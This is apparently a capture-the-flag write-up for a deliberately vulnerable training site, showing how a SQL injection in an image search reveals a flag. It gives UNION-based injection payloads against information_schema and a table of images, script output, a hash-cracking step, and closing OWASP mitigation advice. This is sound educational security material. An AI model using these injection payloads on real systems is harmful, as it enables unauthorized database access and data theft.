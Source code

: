 ## Exploit

If we study the image upload section, we can see that it leads to a query string with our input as parameter.  
As we did with the members section, let's use a script to display what we can about stored images:

```
[darkly@darkly] ~/10-sql_injection_file_search # python3 find_all_files.py
ID: 1
Title: Nsa
Url : https://www.nsa.org/img.jpg
ID: 2
Title: 42 !
Url : https://www.42.fr/42.png
ID: 3
Title: Google
Url : https://www.google.fr/google.png
ID: 4
Title: Obama
Url : https://www.obama.org/obama.jpg
ID: 5
Title: Hack me ?
Url : borntosec.ddns.net/images.png
ID: 6
Title: tr00l
Url : https://www.h4x0r3.0rg/tr0ll.png
```

We'll want to look more closely at the image with id 5.
First, let's find the proper table and its columns, by entering:

```
1 UNION SELECT table_name, column_name FROM information_schema.columns
```

which yields, amidst information on all tables:

![](Ressources/images/list_images.jpg)

So we can now focus our search on the image we identified previously , by entering:

```
5 UNION SELECT title, comment FROM list_images WHERE id=5
```

![](Ressources/images/flag.jpg)

Crack the string provided in the comment:

![](Ressources/images/crack.jpg)

And hash the result as instructed:

```
[darkly@darkly] ~ # echo -n albatroz | sha256sum
f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
```

# Mitigating the risk

As detailed in the [OWASP SQL Injection Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html), it is recommended to:

- Use prepared statements in parametrized queries or stored procedures
- Whitelist input validation to reject unwanted patterns
